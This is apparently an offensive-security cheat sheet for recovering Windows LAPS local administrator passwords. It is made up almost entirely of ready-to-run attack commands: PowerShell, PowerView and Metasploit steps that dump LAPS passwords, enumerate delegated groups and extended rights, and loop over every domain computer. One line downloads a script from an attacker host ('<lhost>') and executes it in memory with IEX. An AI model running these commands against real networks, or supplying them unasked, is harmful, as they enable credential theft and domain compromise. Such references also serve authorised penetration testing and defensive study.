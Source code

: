 # LAPS

% laps, password

#plateform/windows  #target/remote #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## get laps passwords (powershell)
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## laps toolkit - download
https://github.com/leoloobeek/LAPSToolkit

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/LAPSToolkit.ps1') | IEX; Import-Module .\LAPSToolkit.ps1
```

## laps toolkit - Get laps computer and passwords
```powershell
Import-Module .\LAPSToolkit.ps1; Get-LAPSComputers
```

## laps toolkit - find LAPS Delegated Groups
```powershell
Import-Module .\LAPSToolkit.ps1; Find-LAPSDelegatedGroups
```

## laps toolkit - Find users with Extended rights
```powershell
Import-Module .\LAPSToolkit.ps1; Find-AdmPwdExtendedRights
```


##  get laps password (powerview)
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

##  get laps password (metasploit)
```
use windows/gather/credentials/enum_laps
```

## get all machine passwords (powershell)
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```




